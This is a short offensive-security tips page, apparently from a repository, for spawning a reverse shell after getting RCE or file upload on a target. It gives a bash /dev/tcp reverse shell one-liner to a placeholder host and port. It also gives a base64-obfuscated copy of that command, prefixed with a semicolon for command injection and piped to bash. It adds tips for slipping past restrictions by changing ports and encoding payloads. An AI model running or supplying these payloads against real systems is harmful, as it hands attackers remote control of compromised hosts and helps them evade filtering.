 # TIPS 

If you have obtained a vulnerability such as RCE, file upload or something else, you can use the script below to spawn a shell or backconnect revershell. If the shell does not run see below

1. Make sure the target has internet access (internet access opened)
2. Try changing the port to a larger one such as 8080, 8888, etc. 
3. Encode your script using base64 and then decode it 3. 
4. Encode your script using url encode 

## Script 1 

```
sh -i >& /dev/tcp/<YOUR HOST OR IP>/<PORT> 0>&1
```

## Script 2

```
; echo c2ggLWkgPiYgL2Rldi90Y3AvPFlPVVIgSE9TVCBPUiBJUD4vPFBPUlQ+IDA+JjE= | base64 -d | bash;"
```
